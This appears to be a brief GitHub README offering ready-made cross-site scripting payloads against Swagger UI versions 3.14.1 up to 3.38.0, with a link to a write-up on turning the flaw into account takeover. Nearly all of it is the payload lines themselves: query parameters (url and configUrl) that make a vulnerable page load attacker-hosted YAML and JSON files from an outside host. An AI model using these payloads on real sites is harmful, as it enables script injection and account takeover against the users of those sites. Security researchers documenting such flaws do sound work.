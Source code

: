 # Swagger UI >=3.14.1 < 3.38.0 XSS payload

- Swagger UI version affected: `>=3.14.1 < 3.38.0`

## Payloads

### `url`
`?url=https://raw.githubusercontent.com/gilsgil/swagger-xss/main/xss-domain.yaml`
`?url=https://raw.githubusercontent.com/gilsgil/swagger-xss/main/xss-fetch.yaml`
### `configUrl`

`?configUrl=https://raw.githubusercontent.com/gilsgil/swagger-xss/main/config.json`

**More info at**: https://www.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/

